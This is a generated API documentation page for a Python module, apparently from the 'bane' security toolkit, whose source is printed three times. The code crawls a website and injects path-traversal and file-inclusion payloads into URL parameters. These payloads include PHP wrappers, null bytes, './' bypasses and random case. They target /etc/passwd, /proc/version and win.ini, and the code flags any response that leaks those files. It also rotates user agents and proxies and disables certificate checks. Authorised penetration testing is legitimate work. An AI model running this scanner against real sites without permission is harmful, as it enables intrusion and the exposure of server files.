 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.scanners.vulnerabilities.path_traversal</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.scanners.vulnerabilities.utils import *




def path_traversal_check(
    u,
    php_wrapper=&#34;file&#34;,
    linux_file=0,
    null_byte=False,
    bypass=False,
    target_os=&#34;linux&#34;,
    proxy=None,
    proxies=None,
    timeout=10,
    user_agent=None,
    cookie=None,
    headers={}
):
    &#34;&#34;&#34;
    this function is for FI vulnerability test using a link&#34;&#34;&#34;
    linux_files = [&#34;{}proc{}version&#34;, &#34;{}etc{}passwd&#34;]
    if proxies:
        proxy = random.choice(proxies)
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    if cookie:
        heads = {&#34;User-Agent&#34;: us, &#34;Cookie&#34;: cookie}
    else:
        heads = {&#34;User-Agent&#34;: us}
    heads.update(
        {
            &#34;Referer&#34;: u,
            &#34;Origin&#34;: u.split(&#34;://&#34;)[0] + &#34;://&#34; + u.split(&#34;://&#34;)[1].split(&#34;/&#34;)[0],
        }
    )
    heads.update(headers)
    if &#34;=&#34; not in u:
        return (False, &#34;&#34;)
    else:
        if target_os.lower() == &#34;linux&#34;:
            l = linux_files[linux_file]
        else:
            l = &#34;c:{}windows{}win.ini&#34;
        if bypass == True:
            l = l.format(&#34;./&#34; * random.randint(1, 5), &#34;./&#34; * random.randint(1, 5))
        else:
            l = l.format(&#34;/&#34; * random.randint(1, 5), &#34;/&#34; * random.randint(1, 5))
        if php_wrapper:
            l = (
                &#34;&#34;.join(random.choice((str.upper, str.lower))(c) for c in php_wrapper)
                + &#34;://&#34;
                + l
            )
        if null_byte == True:
            l += &#34;%00&#34;
        try:
            r = requests.Session().get(
                u.format(l), headers=heads, proxies=proxy, timeout=timeout, verify=False
            )
            if (
                (
                    len(
                        re.findall(
                            r&#34;[a-zA-Z0-9_]*:[a-zA-Z0-9_]*:[\d]*:[\d]*:[a-zA-Z0-9_]*:/&#34;,
                            r.text,
                        )
                    )
                    &gt; 0
                )
                or (
                    all(
                        x in r.text
                        for x in [
                            &#34;; for 16-bit app support&#34;,
                            &#34;[fonts]&#34;,
                            &#34;[extensions]&#34;,
                            &#34;[mci extensions]&#34;,
                            &#34;[files]&#34;,
                            &#34;[Mail]&#34;,
                        ]
                    )
                    == True
                )
                or (all(x in r.text for x in [&#34;Linux version&#34;, &#34;(gcc version&#34;]) == True)
            ):
                return (True, r.url)
        except Exception as e:
            pass
    return (False, &#34;&#34;)


def path_traversal_urls(
    u,
    null_byte=False,
    bypass=False,
    target_os=&#34;linux&#34;,
    php_wrapper=&#34;file&#34;,
    proxy=None,
    proxies=None,
    timeout=10,
    user_agent=None,
    cookie=None,
    headers={}
):
    res = []
    if u.split(&#34;?&#34;)[0][-1] != &#34;/&#34; and &#34;.&#34; not in u.split(&#34;?&#34;)[0].rsplit(&#34;/&#34;, 1)[-1]:
        u = u.replace(&#34;?&#34;, &#34;/?&#34;)
    a = crawl(u, proxy=proxy, timeout=timeout, cookie=cookie, user_agent=user_agent)
    l = []
    d = a.values()
    for x in d:
        if len(x[3]) &gt; 0:
            l.append(x)
    o = []
    for x in l:
        ur = x[1]
        if ur.split(&#34;?&#34;)[0] not in o:
            o.append(ur.split(&#34;?&#34;)[0])
            if (
                ur.split(&#34;?&#34;)[0][-1] != &#34;/&#34;
                and &#34;.&#34; not in ur.split(&#34;?&#34;)[0].rsplit(&#34;/&#34;, 1)[-1]
            ):
                ur = ur.replace(&#34;?&#34;, &#34;/?&#34;)
            for y in x[3]:
                if valid_parameter(y[1]) == True:
                    trgt = ur.replace(y[0] + &#34;=&#34; + y[1], y[0] + &#34;={}&#34;)
                    q = path_traversal_check(
                        trgt,
                        null_byte=null_byte,
                        bypass=bypass,
                        linux_file=0,
                        target_os=&#34;linux&#34;,
                        php_wrapper=php_wrapper,
                        proxy=proxy,
                        proxies=proxies,
                        timeout=timeout,
                        cookie=cookie,
                        user_agent=user_agent,
                        headers=headers
                    )
                    if q[0] == True:
                        if q[1] not in res:
                            res.append(q[1])
                    else:
                        q = path_traversal_check(
                            trgt,
                            null_byte=null_byte,
                            bypass=bypass,
                            linux_file=1,
                            target_os=&#34;linux&#34;,
                            php_wrapper=php_wrapper,
                            proxy=proxy,
                            proxies=proxies,
                            timeout=timeout,
                            cookie=cookie,
                            user_agent=user_agent,
                            headers=headers
                        )
                        if q[0] == True:
                            if q[1] not in res:
                                res.append(q[1])
                        else:
                            q = path_traversal_check(
                                trgt,
                                null_byte=null_byte,
                                bypass=bypass,
                                php_wrapper=php_wrapper,
                                proxy=proxy,
                                proxies=proxies,
                                timeout=timeout,
                                cookie=cookie,
                                user_agent=user_agent,
                                target_os=&#34;windows&#34;,
                                headers=headers
                            )
                            if q[0] == True:
                                if q[1] not in res:
                                    res.append(q[1])
    return res

def path_traversal(
    u,
    max_pages=5,
    logs=True,
    null_byte=False,
    bypass=False,
    target_os=&#34;linux&#34;,
    php_wrapper=None,#&#34;file&#34;,
    proxy=None,
    proxies=None,
    timeout=10,
    user_agent=None,
    cookie=None,
    pages=[],
    headers={}
):
    l=[]
    if pages==[]:
        pages=spider_url(u,cookie=cookie,max_pages=max_pages,timeout=timeout,user_agent=user_agent,proxy=proxy)
    for x in pages:
        if logs==True:
            print(&#39;\n\nPage: {}\n&#39;.format(x))
        result=path_traversal_urls(x,
                            null_byte=null_byte,
                            bypass=bypass,
                            target_os=target_os,
                            php_wrapper=php_wrapper,
                            proxy=proxy,
                            proxies=proxies,
                            timeout=timeout,
                            user_agent=user_agent,
                            cookie=cookie,
                            headers=headers)
        if logs==True:
            for r in result:
                print(r)
        l.append({&#39;page&#39;:x,&#39;result&#39;:result})
    return  [x for x in l if x[&#39;result&#39;]!=[]]</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-functions">Functions</h2>
<dl>
<dt id="bane.scanners.vulnerabilities.path_traversal.path_traversal"><code class="name flex">
<span>def <span class="ident">path_traversal</span></span>(<span>u, max_pages=5, logs=True, null_byte=False, bypass=False, target_os='linux', php_wrapper=None, proxy=None, proxies=None, timeout=10, user_agent=None, cookie=None, pages=[], headers={})</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def path_traversal(
    u,
    max_pages=5,
    logs=True,
    null_byte=False,
    bypass=False,
    target_os=&#34;linux&#34;,
    php_wrapper=None,#&#34;file&#34;,
    proxy=None,
    proxies=None,
    timeout=10,
    user_agent=None,
    cookie=None,
    pages=[],
    headers={}
):
    l=[]
    if pages==[]:
        pages=spider_url(u,cookie=cookie,max_pages=max_pages,timeout=timeout,user_agent=user_agent,proxy=proxy)
    for x in pages:
        if logs==True:
            print(&#39;\n\nPage: {}\n&#39;.format(x))
        result=path_traversal_urls(x,
                            null_byte=null_byte,
                            bypass=bypass,
                            target_os=target_os,
                            php_wrapper=php_wrapper,
                            proxy=proxy,
                            proxies=proxies,
                            timeout=timeout,
                            user_agent=user_agent,
                            cookie=cookie,
                            headers=headers)
        if logs==True:
            for r in result:
                print(r)
        l.append({&#39;page&#39;:x,&#39;result&#39;:result})
    return  [x for x in l if x[&#39;result&#39;]!=[]]</code></pre>
</details>
</dd>
<dt id="bane.scanners.vulnerabilities.path_traversal.path_traversal_check"><code class="name flex">
<span>def <span class="ident">path_traversal_check</span></span>(<span>u, php_wrapper='file', linux_file=0, null_byte=False, bypass=False, target_os='linux', proxy=None, proxies=None, timeout=10, user_agent=None, cookie=None, headers={})</span>
</code></dt>
<dd>
<div class="desc"><p>this function is for FI vulnerability test using a link</p></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def path_traversal_check(
    u,
    php_wrapper=&#34;file&#34;,
    linux_file=0,
    null_byte=False,
    bypass=False,
    target_os=&#34;linux&#34;,
    proxy=None,
    proxies=None,
    timeout=10,
    user_agent=None,
    cookie=None,
    headers={}
):
    &#34;&#34;&#34;
    this function is for FI vulnerability test using a link&#34;&#34;&#34;
    linux_files = [&#34;{}proc{}version&#34;, &#34;{}etc{}passwd&#34;]
    if proxies:
        proxy = random.choice(proxies)
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    if cookie:
        heads = {&#34;User-Agent&#34;: us, &#34;Cookie&#34;: cookie}
    else:
        heads = {&#34;User-Agent&#34;: us}
    heads.update(
        {
            &#34;Referer&#34;: u,
            &#34;Origin&#34;: u.split(&#34;://&#34;)[0] + &#34;://&#34; + u.split(&#34;://&#34;)[1].split(&#34;/&#34;)[0],
        }
    )
    heads.update(headers)
    if &#34;=&#34; not in u:
        return (False, &#34;&#34;)
    else:
        if target_os.lower() == &#34;linux&#34;:
            l = linux_files[linux_file]
        else:
            l = &#34;c:{}windows{}win.ini&#34;
        if bypass == True:
            l = l.format(&#34;./&#34; * random.randint(1, 5), &#34;./&#34; * random.randint(1, 5))
        else:
            l = l.format(&#34;/&#34; * random.randint(1, 5), &#34;/&#34; * random.randint(1, 5))
        if php_wrapper:
            l = (
                &#34;&#34;.join(random.choice((str.upper, str.lower))(c) for c in php_wrapper)
                + &#34;://&#34;
                + l
            )
        if null_byte == True:
            l += &#34;%00&#34;
        try:
            r = requests.Session().get(
                u.format(l), headers=heads, proxies=proxy, timeout=timeout, verify=False
            )
            if (
                (
                    len(
                        re.findall(
                            r&#34;[a-zA-Z0-9_]*:[a-zA-Z0-9_]*:[\d]*:[\d]*:[a-zA-Z0-9_]*:/&#34;,
                            r.text,
                        )
                    )
                    &gt; 0
                )
                or (
                    all(
                        x in r.text
                        for x in [
                            &#34;; for 16-bit app support&#34;,
                            &#34;[fonts]&#34;,
                            &#34;[extensions]&#34;,
                            &#34;[mci extensions]&#34;,
                            &#34;[files]&#34;,
                            &#34;[Mail]&#34;,
                        ]
                    )
                    == True
                )
                or (all(x in r.text for x in [&#34;Linux version&#34;, &#34;(gcc version&#34;]) == True)
            ):
                return (True, r.url)
        except Exception as e:
            pass
    return (False, &#34;&#34;)</code></pre>
</details>
</dd>
<dt id="bane.scanners.vulnerabilities.path_traversal.path_traversal_urls"><code class="name flex">
<span>def <span class="ident">path_traversal_urls</span></span>(<span>u, null_byte=False, bypass=False, target_os='linux', php_wrapper='file', proxy=None, proxies=None, timeout=10, user_agent=None, cookie=None, headers={})</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def path_traversal_urls(
    u,
    null_byte=False,
    bypass=False,
    target_os=&#34;linux&#34;,
    php_wrapper=&#34;file&#34;,
    proxy=None,
    proxies=None,
    timeout=10,
    user_agent=None,
    cookie=None,
    headers={}
):
    res = []
    if u.split(&#34;?&#34;)[0][-1] != &#34;/&#34; and &#34;.&#34; not in u.split(&#34;?&#34;)[0].rsplit(&#34;/&#34;, 1)[-1]:
        u = u.replace(&#34;?&#34;, &#34;/?&#34;)
    a = crawl(u, proxy=proxy, timeout=timeout, cookie=cookie, user_agent=user_agent)
    l = []
    d = a.values()
    for x in d:
        if len(x[3]) &gt; 0:
            l.append(x)
    o = []
    for x in l:
        ur = x[1]
        if ur.split(&#34;?&#34;)[0] not in o:
            o.append(ur.split(&#34;?&#34;)[0])
            if (
                ur.split(&#34;?&#34;)[0][-1] != &#34;/&#34;
                and &#34;.&#34; not in ur.split(&#34;?&#34;)[0].rsplit(&#34;/&#34;, 1)[-1]
            ):
                ur = ur.replace(&#34;?&#34;, &#34;/?&#34;)
            for y in x[3]:
                if valid_parameter(y[1]) == True:
                    trgt = ur.replace(y[0] + &#34;=&#34; + y[1], y[0] + &#34;={}&#34;)
                    q = path_traversal_check(
                        trgt,
                        null_byte=null_byte,
                        bypass=bypass,
                        linux_file=0,
                        target_os=&#34;linux&#34;,
                        php_wrapper=php_wrapper,
                        proxy=proxy,
                        proxies=proxies,
                        timeout=timeout,
                        cookie=cookie,
                        user_agent=user_agent,
                        headers=headers
                    )
                    if q[0] == True:
                        if q[1] not in res:
                            res.append(q[1])
                    else:
                        q = path_traversal_check(
                            trgt,
                            null_byte=null_byte,
                            bypass=bypass,
                            linux_file=1,
                            target_os=&#34;linux&#34;,
                            php_wrapper=php_wrapper,
                            proxy=proxy,
                            proxies=proxies,
                            timeout=timeout,
                            cookie=cookie,
                            user_agent=user_agent,
                            headers=headers
                        )
                        if q[0] == True:
                            if q[1] not in res:
                                res.append(q[1])
                        else:
                            q = path_traversal_check(
                                trgt,
                                null_byte=null_byte,
                                bypass=bypass,
                                php_wrapper=php_wrapper,
                                proxy=proxy,
                                proxies=proxies,
                                timeout=timeout,
                                cookie=cookie,
                                user_agent=user_agent,
                                target_os=&#34;windows&#34;,
                                headers=headers
                            )
                            if q[0] == True:
                                if q[1] not in res:
                                    res.append(q[1])
    return res</code></pre>
</details>
</dd>
</dl>
</section>
<section>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.scanners.vulnerabilities" href="index.md">bane.scanners.vulnerabilities</a></code></li>
</ul>
</li>
<li><h3><a href="#header-functions">Functions</a></h3>
<ul class="">
<li><code><a title="bane.scanners.vulnerabilities.path_traversal.path_traversal" href="#bane.scanners.vulnerabilities.path_traversal.path_traversal">path_traversal</a></code></li>
<li><code><a title="bane.scanners.vulnerabilities.path_traversal.path_traversal_check" href="#bane.scanners.vulnerabilities.path_traversal.path_traversal_check">path_traversal_check</a></code></li>
<li><code><a title="bane.scanners.vulnerabilities.path_traversal.path_traversal_urls" href="#bane.scanners.vulnerabilities.path_traversal.path_traversal_urls">path_traversal_urls</a></code></li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>